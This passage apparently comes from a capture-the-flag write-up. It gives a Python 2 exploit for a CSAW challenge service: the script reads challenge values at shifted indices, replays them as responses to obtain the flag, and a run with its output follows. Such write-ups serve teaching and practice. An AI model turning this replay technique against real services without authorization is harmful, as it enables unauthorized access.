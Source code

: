 ``` python
# helper function to get a challenge value from the server on the given socket
def get_challenge(i, s):
  # send the single byte containing the challenge id and the index
  s.send(chr(challenge_id + i))
  # read the value off the wire
  challenge = s.recv(4)
  # convert to a number value and return
  return u(challenge)

# helper function to send a response to the server
def send_response(i, r, s):
  # send the single byte containing the challenge id and the index
  s.send(chr(response_id + i))
  # send the 4-byte response value
  s.send(p(r))

# helper function to get the flag (if possible)
def get_flag(s):
  # send the single byte containing the flag id
  s.send(chr(flag_id))
  # return whatever it is that we can get off the socket
  return s.recv(1024)

# connect to the remote host
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((host, port))

# read and ignore the banner
sock.recv(1024)

challenges = []
# read each challenge value and write another value back as a resopnse
for i in range(0, cr_count):
  try:
    response = get_challenge(i + 8, sock)
    print "Response  {0}: 0x{1:08x}".format(i, response)
    send_response(i, response, sock)
  except:
    print "Connection dropped"
    sock.close()
    sys.exit(2)

print "Flag: " + get_flag(sock)

# close the socket/finish up
sock.close()
```
And what's the result? Well, let's just fire it straight at CSAW and see what happens:
```
$ ./pwn.py 54.85.89.65 8888
Response  0: 0x77ef6aea
Response  1: 0x6e7b372a
Response  2: 0x6199288c
Response  3: 0x607ad78e
Response  4: 0x68966b7d
Response  5: 0x6ffb15d6
Response  6: 0x15d3c1bc
Response  7: 0x1b3a1ce0
Flag: flag{greetings_to_pure_digital}
```
